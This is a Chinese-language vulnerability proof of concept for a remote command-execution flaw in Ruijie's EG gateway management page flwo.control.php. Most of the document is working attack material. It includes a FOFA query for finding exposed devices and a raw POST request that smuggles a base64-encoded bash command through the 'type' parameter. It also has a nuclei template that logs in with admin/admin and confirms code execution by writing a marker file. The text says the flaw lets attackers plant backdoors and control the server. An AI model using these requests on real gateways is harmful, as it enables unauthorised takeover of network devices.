 ## 锐捷网络flwo.control.php存在RCE漏洞

锐捷EG易网关存在flwo.control.php命令执行漏洞，攻击者可利用该漏洞执行任意命令，写入后门，获取服务器权限，进而控制整个web服务器。 前提需要登录获取cookie


## fofa
```
title="锐捷网络-EWEB网管系统"
```

## poc
```
POST /flow_control_pi/flwo.control.php?a=flowOpen HTTP/1.1
Host: localhost:4430
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 11
Accept: */*
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: user=21232f297a57a5a743894a0e4a801fc3; LOCAL_LANG_COOKIE=zh; UI_LOCAL_COOKIE=zh; sysmode=sys-mode%20gateway; supportMoreLan=no; RUIJIEID=h250c4c46emk9dv2mjmbk5rlc0; user=21232f297a57a5a743894a0e4a801fc3; isRedirect=true; authenType=local; accountType=write; showPatchDialog=true; module=macc; threeModule=seltab
Origin: https:// localhost:4430
Referer: https:// localhost:4430/rac_pi/surfilter_selservice.htm
Sec-Ch-Ua: " Not;A Brand";v="99", "Google Chrome";v="91", "Chromium";v="91"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: x
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

type=%7Cbash+-c+%27echo+cm0gLXJmIC4uLzEyMzMyMXF3ZS50eHQgJiYgZWNobyBGMDhiYmZiMkJDOGNlZUQ2ID4gLi4vMTIzMzIxcXdlLnR4dCAyPiYx+%7C+base64+-d+%7C+bash+%26%26+exit+0%27
```
![image](../../images/a4710fcd-de46-4774-8c69-de8f5a74dcb2.png)

把管理员cookie填进去，然后写入文件

![c534bc92b717fb16aafc3f62f07e90b1](../../images/2c93d83a-6e44-4198-b973-271829bca4fa.png)

文件路径`http://127.0.0.1/123321qwe.txt`


## yaml
```
http:
  - raw:
	  - |              
		POST /ddi/server/login.php HTTP/1.1
		Host: 
		Content-Type: application/x-www-form-urlencoded
		User-Agent: Mozilla/5.0 

		username=admin&password=admin?
	  - |              
		POST /flow_control_pi/flwo.control.php?a=getFlowGroup HTTP/1.1
		Host: 
		Content-Type: application/x-www-form-urlencoded
		Cookie: RUIJIEID={{cookie}};user=admin;
		User-Agent: Mozilla/5.0 

		type=%7Cbash+-c+%27echo+cm0gLXJmIC4uLzEyMzMyMXF3ZS50eHQgJiYgZWNobyBGMDhiYmZiMkJDOGNlZUQ2ID4gLi4vMTIzMzIxcXdlLnR4dCAyPiYx+%7C+base64+-d+%7C+bash+%26%26+exit+0%27

	  - |              
		GET /123321qwe.txt HTTP/1.1
		Host: 
		User-Agent: Mozilla/5.0      

	extractors:
	  - type: regex
		name: cookie
		part: header
		group: 1
		internal: true
		regex:
		  - "RUIJIEID=(.*); path=/"

	matchers-condition: and
	matchers:
	  - type: dsl
		dsl:
		  - 'status_code_3==200 && contains(body_3, "F08bbfb2BC8ceeD6") && contains(body_3, "text/plain")'

```
